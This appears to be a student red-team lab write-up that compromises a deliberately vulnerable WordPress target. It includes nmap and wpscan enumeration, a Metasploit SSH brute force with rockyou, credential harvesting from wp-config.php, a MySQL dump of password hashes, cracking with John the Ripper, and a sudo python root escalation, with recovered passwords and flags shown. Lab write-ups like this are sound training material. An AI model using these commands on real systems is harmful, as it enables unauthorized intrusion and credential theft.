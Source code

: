## Red Team: Summary of Operations

### Table of Contents

* Exposed Services
* Critical Vulnerabilities
* Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

$ nmap -sV 192.168.1.110

This scan identifies the services below as potential points of entry:

![nmap](https://user-images.githubusercontent.com/92223941/167323675-6f768eff-da1b-490b-b86c-72e2a331e513.PNG)


* Target 1
	- Port 22/TCP SSH
	- Port 80/TCP http
	- Port 111/TCP rpcblind
	- Port 139/TCP netbios -ssn
	- Port 445/TCP netbios -ssn

The following vulnerabilities were identified on each target:

* Target 1
	- Wordpress enumeration
	- Improper use of SSH
	- Weak user password
	- Misconfigure use of privilege escalation

### Exploitation

The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

* Target 1
	- flag1.txt: b9bbcb33e11b80be759c4e844862482d
		- Exploit Used
			- Used wpscan to enumerate the user from the      wordpress website
			- wpscan –url http://192.168.1.110/wordpress -enumerate u
			![flag1a](https://user-images.githubusercontent.com/92223941/167323759-8b74a228-fd22-46af-8999-f0280edcce4b.PNG)
			![flag1b](https://user-images.githubusercontent.com/92223941/167323777-53619b86-1123-4d0d-8a23-56ab23b44df5.PNG)


			- Used SSH scanner module on Metasploit to brute force login attempts with the username and Michael and wordlists from Kali
			- Msfconsole
			- Use auxiliary/scanner/ssh/ssh_login
			- options
			- set Rhosts 192.168.1.110, 
			- set PASS_File /usr/share/wordlists/rockyou.txt,
			- set USERNAME Michael
			- set VERBOSE true
			- run
			
			![flag1c](https://user-images.githubusercontent.com/92223941/167323904-5f7dbbbf-c62e-4840-9d8d-5c3cb6ca28d3.PNG)
			![flag1d](https://user-images.githubusercontent.com/92223941/167323988-ee4f5658-4624-4ac0-9aa0-6d47643b3918.PNG)
			![flag1e](https://user-images.githubusercontent.com/92223941/167324002-8ede5afa-1078-40b4-a2aa-29477dd533b2.PNG)
			![flag1f](https://user-images.githubusercontent.com/92223941/167324020-5c639462-a395-4025-a2c9-09fd8bd3af5d.PNG)




			- I then login into Michael via SSH 
			- SSH michael@192.168.1.110 password: michael
			![flag1g](https://user-images.githubusercontent.com/92223941/167324082-3fc31b7f-4941-42ed-a7aa-83717c4d95ab.PNG)

			- I then went into the html directory and listed the directories in it
			- cd /var/www/html
			- ls
			
			![flag1h](https://user-images.githubusercontent.com/92223941/167324979-d7ebf9a0-ca4b-41f1-902d-44ea39952d6a.PNG)

			- I then went into the service.html file and found flag1.
			- nano service.html
			-  ctrl+w “flag”
			
			![flag1i](https://user-images.githubusercontent.com/92223941/167325079-19322eb6-7552-42c7-bd5c-23466815a0e4.PNG)


	- flag2.txt: fc3fd58dcdad9ab23faca6e9a36e581c
		- Exploit Used
			- I went back one directory and listed the files and found flag 2
			- cd ..
			- ls
			- cat flag2.txt
			
			![flag2](https://user-images.githubusercontent.com/92223941/167325463-abec4f96-5346-4b02-89d8-152dc391f0bd.PNG)


	- flag3.txt: afc01ab56b50591e7dccf93122770cd2
		- Exploit Used
			- I went back to the html directory and went into the wordpress directory and listed the directories
			- cd html
			- cd wordpress
			
			![flag3a](https://user-images.githubusercontent.com/92223941/167325569-dc746cd4-2576-49c0-8df8-37dc32edf0f4.PNG)

			- I then went into the wp-config file and found the password for sql login
			- Nano wp-config.php
			
			![flag3b](https://user-images.githubusercontent.com/92223941/167325638-870dc113-3eda-4792-bba7-c003cb2396df.PNG)
			![flag3c](https://user-images.githubusercontent.com/92223941/167325672-71cdd3a8-44bf-4fde-b8e3-54b083990ded.PNG)


			- I logged in via sql
			- mysql -u root -P password: R@v3nSecurity
			
			![flag3d](https://user-images.githubusercontent.com/92223941/167325716-23e594d1-5838-443b-81ea-5369e1bf53ba.PNG)

			- I then viewed the databases then viewed the tables
			- show databases;
			- show tables;
			
			![flag3e](https://user-images.githubusercontent.com/92223941/167325769-473c1a9a-947c-4760-aeba-7934237064d0.PNG)
			![flag3f](https://user-images.githubusercontent.com/92223941/167325809-1d6fc6a6-e45e-44ed-ae22-b19346092a2f.PNG)


			- I then selected wp_posts and was able to find flag3
			- select * from wp_posts;
			
			![flag3g](https://user-images.githubusercontent.com/92223941/167325856-51d21d20-cd5b-4c10-9568-3c38b3f7f971.PNG)
			![flag3h](https://user-images.githubusercontent.com/92223941/167325887-ab8c0c7f-e164-4bab-8800-02261a97f9e6.PNG)



	- Flag4.txt: 715dea6c055b9fe3337544932f2941ce
		- Exploit Used
			- While still being logged in via sql I described the table wp_users
			- describe wp_users;
			- I then formatted the username and passwords being separated by a colon sign.
			- select concat_ws(‘:’, user_login, user_pass) from wp_users;
			- I then outputted the formatted table into text file in the www directory and then viewed the file under michael
			- select concat_ws(‘:’, user_login, user_pass) from wp_users into outfile ‘var/www/wp_hashes.txt’;
			- cat wp_hashes.txt
			- I copied wp_hashes.txt file and exited Michael’s computer and pasted the file on www directory on my pc
			- “copied username and passwords”
			- Exit
			- cd /var/www
			- ls
			- touch wp_hashes.txt
			- nano wps_hashes.txt
			- “pasted username and passwords”
			- I ran john the ripper to brute force the password with the usernames and found the password for steven
			- John wp_hashes.txt
			- I logged into Steven via ssh 
			- ssh steven password:pink84
			- I ran a python command to login via root
			- sudo python -c ‘import pty:pty.spawn(“/bin/bash”)’
			- I then went into the root directory I ran the list command and found flag 4 and then I viewed the flag
			- cd /root
			- ls
			- cat flag4.txt
